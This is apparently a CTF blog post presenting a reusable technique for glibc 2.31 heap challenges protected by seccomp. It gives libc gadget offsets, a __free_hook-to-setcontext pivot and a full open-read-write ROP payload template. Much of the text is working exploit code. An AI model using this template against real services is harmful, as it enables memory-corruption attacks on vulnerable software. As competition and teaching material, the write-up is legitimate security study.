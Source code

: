 ```yaml
---
# Documentation: https://wowchemy.com/docs/managing-content/

title: "Glibc 2.31 Heap + Seccomp Exploitation Technique using ROP"
subtitle: ""
summary: "My technique of solving glibc 2.31 heap challenges with seccomp"
authors: [midas]
tags: []
categories: []
date: 2021-01-03T04:40:50-08:00
lastmod: 2021-01-03T04:40:50-08:00
featured: false
draft: false

# Featured image
# To use, add an image named `featured.jpg/png` to your page's folder.
# Focal points: Smart, Center, TopLeft, Top, TopRight, Left, Right, BottomLeft, Bottom, BottomRight.
image:
  caption: ""
  focal_point: ""
  preview_only: false

# Projects (optional).
#   Associate this post with one or more of your projects.
#   Simply enter your project's folder or file name without extension.
#   E.g. `projects = ["internal-project"]` references `content/project/deep-learning/index.md`.
#   Otherwise, set `projects = []`.
projects: []
---
```


## Introduction
*In this post, I assume that readers are somewhat comfortable with heap exploitation. If you are not, you can start with other simpler techniques available on the Internet to get used to it first.*

Recently, I have seen a lot of glibc 2.31 heap pwning challenges in various CTFs that include `seccomp` filters which prevent you from directly overwrite `__free_hook` with `one_gadget` to pop a shell. I have also read some writeups of different CTF players using different techniques to workaround the `seccomp` filters, but it seems that no one has written about a generalized exploitation technique for this kind of challenge. Therefore in this blog post, I will demonstrate the technique I use, analyze how it works and provide you with a template that can be reused if the pre-requisites are met.

## Pre-requisites
For this technique to be successfully executed, the following conditions must be met:
- You can leak `libc` and `heap`'s base addresses. 
- You have a primitive that can overwrite `__free_hook`.
- My ROP chain is an `open-read-write` chain, which means that the only syscalls that need to be allowed by `seccomp` are `open`, `read` and `write` (this is true for most challenges). It doesn't need `mmap` or `mprotect` to work.
- You can write to a heap chunk that is large enough to contain the payload, which is 0x168 bytes, if it's too much, you can consider using other shorter payloads with `mprotect` or `mmap`, but the idea is the same (and of course you must be able to `free` that chunk).
- You know the absolute path to `flag` file (which you can most of the time ask the organizers).

## Gadgets
As I mentioned in the title, this technique is a ROP chain on the heap, and with ROP, the most important things are the gadgets. All the gadgets that are used in this technique are in `libc` itself, the `libc-2.31.so` version I used here has `md5sum` of `1ec728d58f7fc0d302119e9bb53050f8`. If you have a `libc-2.31.so` that has different checksum, the offset might be different, but the gadgets should still be there. Below are the gadgets I use:

Firstly, the ordinary gadgets that deal with manipulating registers and `syscall`:
```python
# l.address is leaked base of libc
pop_rdi = l.address + 0x26b72
pop_rsi = l.address + 0x27529
pop_rdx_r12 = l.address + 0x11c371
push_rax = l.address + 0x45197
pop_rax = l.address + 0x4a550
xchg_eax_edi = l.address + 0x2ad2b
syscall_ret = l.address + 0x66229
```

All the gadgets except `syscall_ret` can be found using this [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) tool. For `syscall_ret`, you can use this command (thanks `@Catafact` for this): 
```
objdump -D -Mintel ./libc-2.31.so | grep -B 1 ret | grep -A 1 syscall
``` 

The next 2 gadgets are crucial for this technique, the first one is at `call_gadget = l.address + 0x154930`:
```x86asm
mov     rdx, [rdi+8]
mov     [rsp], rax
call    qword ptr [rdx+0x20]
```

This gadget is what we will overwrite `__free_hook` with. It allows us to call an arbitrary function through `rdx`, if we control `rdi`, which is exactly the parameter that will be passed to `free()`. 

The next gadget is inside libc function `setcontext()`, at offset `setcontext_gadget = l.address + 0x580DD`:
```x86asm
mov     rsp, [rdx+0A0h]
mov     rbx, [rdx+80h]
mov     rbp, [rdx+78h]
mov     r12, [rdx+48h]
mov     r13, [rdx+50h]
mov     r14, [rdx+58h]
mov     r15, [rdx+60h]
test    dword ptr fs:48h, 2
jz      loc_581C6

loc_581C6:
mov     rcx, [rdx+0A8h]
push    rcx
mov     rsi, [rdx+70h]
mov     rdi, [rdx+68h]
mov     rcx, [rdx+98h]
mov     r8, [rdx+28h]
mov     r9, [rdx+30h]
mov     rdx, [rdx+88h]
xor     eax, eax
ret
```
Because we control `rdx`, this gadget allows us to set almost every registers (with the exception of `rax`, `r10` and `r11`).

## The payload
My payload can be divided into 3 parts, which I will explain one by one. 

The first part:
```python
base = heap + <.....>             # payload_base (address of the chunk)
payload = b"A"*8                  # <-- [rdi] <-- payload_base
payload += p64(base)              # <-- [rdi + 8] = rdx
payload += b"B"*0x10              # padding
payload += p64(setcontext_gadget) # <-- [rdx + 0x20]
```
This is the `base` of our payload, where `rdi` will be pointed to when `free()` is called. I set `[rdi + 8]` to also be `base`, so that when `mov rdx, [rdi+8]` is executed, `rdx` will also point at `base`. Then `[rdx + 0x20]` will be the address of the `setcontext()` gadget, which will be called.

The second part, which will be utilized after `setcontext_gadget` is called:
```python
payload += p64(0)                 # <-- [rdx + 0x28] = r8
payload += p64(0)                 # <-- [rdx + 0x30] = r9
payload += b"A"*0x10              # padding
payload += p64(0)                 # <-- [rdx + 0x48] = r12
payload += p64(0)                 # <-- [rdx + 0x50] = r13
payload += p64(0)                 # <-- [rdx + 0x58] = r14
payload += p64(0)                 # <-- [rdx + 0x60] = r15
payload += p64(base + 0x258)      # <-- [rdx + 0x68] = rdi (ptr to flag path)
payload += p64(0)                 # <-- [rdx + 0x70] = rsi (flag = O_RDONLY)
payload += p64(0)                 # <-- [rdx + 0x78] = rbp
payload += p64(0)                 # <-- [rdx + 0x80] = rbx
payload += p64(0)                 # <-- [rdx + 0x88] = rdx 
payload += b"A"*8                 # padding
payload += p64(0)                 # <-- [rdx + 0x98] = rcx 
payload += p64(base + 0x1b0)      # <-- [rdx + 0xa0] = rsp, perfectly setup for it to ret into our chain
payload += p64(pop_rax)           # <-- [rdx + 0xa8] = rcx, will be pushed to rsp
```
With the comments, it is self-explanatory. This is where all the registers are set based on `rdx`. Even though there are lots of registers to set, I'm only interested at `rdi` and `rsi`, which will be the parameters to `sys_open`, along with `rcx` and `rsp`, which must be carefully set so that after `push rcx` is executed, `rsp` must be in the correct position to execute the third part, which is the ROP chain on the heap, `rcx` is set to `pop_rax` gadget to start the chain.

The third part:
```python
payload += p64(2)
payload += p64(syscall_ret) # sys_open("/path/to/flag", O_RDONLY)
payload += p64(xchg_eax_edi)
payload += p64(pop_rsi)
payload += p64(heap + 0x15000) # destination buffer, can be anywhere readable and writable
payload += p64(pop_rdx_r12)
payload += p64(0x100) + p64(0) # nbytes
payload += p64(pop_rax)
payload += p64(0)
payload += p64(syscall_ret) # sys_read(eax, heap + 0x15000, 0x100)
payload += p64(pop_rdi)
payload += p64(1)
payload += p64(pop_rsi)
payload += p64(heap + 0x15000) # buffer
payload += p64(pop_rdx_r12)
payload += p64(0x100) + p64(0) # nbytes
payload += p64(pop_rax)
payload += p64(1)
payload += p64(syscall_ret) # sys_write(1, heap + 0x15000, 0x100)
payload += b"/path/to/flag"
```
Nothing much to say about this part, if you know ROP, you know that this is an ordinary `open-read-write` chain.

After allocating this `payload` and overwriting `__free_hook` with the `call_gadget`, calling `free()` on it will execute the chain and print out the `flag`.

## Examples
Here are some writeups to challenges that me and my team solved using this technique:
- [TetCTF2021 - cache_v1 & cache_v2](https://blog.efiens.com/post/midas/tetctf2021-pwn-writeups/) by `@midas` (me).
- [ASCIS/SVATTT2020 Finals - Secret Keeper](https://blog.efiens.com/post/ascis2020-final-secret-keeper/) by `@pickaxe`

